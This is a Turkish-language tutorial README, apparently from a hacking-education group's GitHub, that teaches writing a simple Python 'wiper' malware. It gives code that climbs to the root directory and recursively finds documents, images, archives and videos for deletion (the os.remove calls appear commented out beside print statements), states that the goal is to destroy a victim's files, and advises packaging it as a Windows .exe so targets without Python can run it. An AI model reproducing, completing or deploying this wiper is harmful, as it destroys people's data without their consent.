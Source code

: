 🕊 Bu döküman [**@KekikAkademi**](https://t.me/KekikAkademi "Telegram: @KekikAkademi") için oluşturulmuştur. ✌🏼
________________________________
# Py4H Simple Wiper Malware v1
![Py Malware](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/4-Py4H_Simple_Wiper_Malware_v1/images/py-malware)

Bu yazımızda Python dilinin ne kadar kolay ve güçlü olduğunun bir kanıtını daha göreceğiz. Basit de olsa küçük bir malware programı kodlayacağız.

### **Saldırı Senaryosu:**
Kurban, Python programımızı çalıştırdığında sistemdeki tüm docx, doc, txt, xls, pdf dosyalarını imha etmek.

### **Algoritma:**
-   Başla
   -   Kök dizine in
   -   Belirtilen dosyaları bul ve sil
   -   Bitti

### **Kod Paylaşımı:**
Aşağıdaki kodlar ile kök dizine “/” indik. Bu dizin C:/ de olabilir D:/ de olabilir yani Python programımızın hangi sürücüde çalıştırılacağına bağlıdır.

	suanki_dizin = os.getcwd() #bulundugu dizin
	a = suanki_dizin.split("/")
	sayi = len(a)-1
	for i in range(0,sayi):
		os.chdir(os.pardir)

Daha sonra [benim](https://web.archive.org/web/20190701033756/http://python4hackers.com/author/oguzhan-arslan "Oğuzhan Arslan") bulup geliştirdiğim dizin taramasında kullandığım bir algoritma ile dosyalarımızı bulduk ve sildik.

	girilen_dizinler = []
	 
	def BulunanDizin(gelendizin):
		os.chdir(gelendizin)
		print("girilen dizin >> "+ gelendizin)
		girilen_dizinler.append(gelendizin)
		KontrolEt()
		os.chdir(os.pardir)
	 
	def KontrolEt():
		dosyalr = os.listdir(os.getcwd())
		for i in dosyalr:
			try:
				if re.match(".*txt",i):
					print(i) #os.remove(i)
				elif re.match(".*pdf",i):
					print(i) #os.remove(i)
				elif re.match(".*docx",i):
					print(i) #os.remove(i)
				elif re.match(".*doc",i):
					print(i) #os.remove(i)
				elif re.match(".*xls",i):
					print(i) #os.remove(i)
				elif re.match(".*jpg",i):
					print(i) #os.remove(i)
				elif re.match(".*rar",i):
					print(i) #os.remove(i)
				elif re.match(".*zip",i):
					print(i) #os.remove(i)
				elif re.match(".*mp4",i):
					print(i) #os.remove(i)
				elif os.path.isdir(i):
					if girilen_dizinler.count(i) == 0:
						BulunanDizin(i)
					else:
						pass
				else:
					pass
			except:
				pass

[Kodların Tamamına Burdan Ulaşabilirsiniz!](https://github.com/KekikAkademi/KekikPython/blob/master/4-Py4H_Simple_Wiper_Malware_v1/Py4H_Simple_Wiper_Malware_v1.py)

### **Notlar:**
   -   Tabi ki hedefteki kişinin bilgisayarında Python yüklü olmayabilir bu yüzden programımızı her Windows işletim sisteminde çalışabilmesi için pyinstaller, py2exe ya da cx_freeze modüllerinden birini kullanarak .exe dosyası haline getirmelisiniz.

   -   Şuan çok basit bir şekilde küçük bir malware yazdık, ilerleyen süreçlerde daha komplike hale getirebilirsiniz..

> Bir sonraki yazımızda görüşmek üzere.

[Kaynak](http://python4hackers.com/python-malware/py4h-simple-wiper-malware-v1.html "Saygı ve Özlemle...")
________________________________

📃 **Yandex.Disk Bünyemizde 780GB veri olmuştur.**

_Paylaşılan Kursların Tümünü_ [**@KekikKahve**](https://t.me/KekikKahve) _Grubu notlarından Çağırabilirsiniz.._

🕊️ Bize **oy verip** _paylaşarak_ destek olmaya ne dersin? ✌🏼
#
> Bu readme sayfası oluşturulurken [prose.io](http://prose.io/ "prose.io") ve [stackedit.io](https://stackedit.io/app "stackedit.io") araçlarından yardım alınmıştır..
> Emojiler için [webfx](https://www.webfx.com/tools/emoji-cheat-sheet/ "Emoji Cheat Sheet") sayfası kullanılmıştır.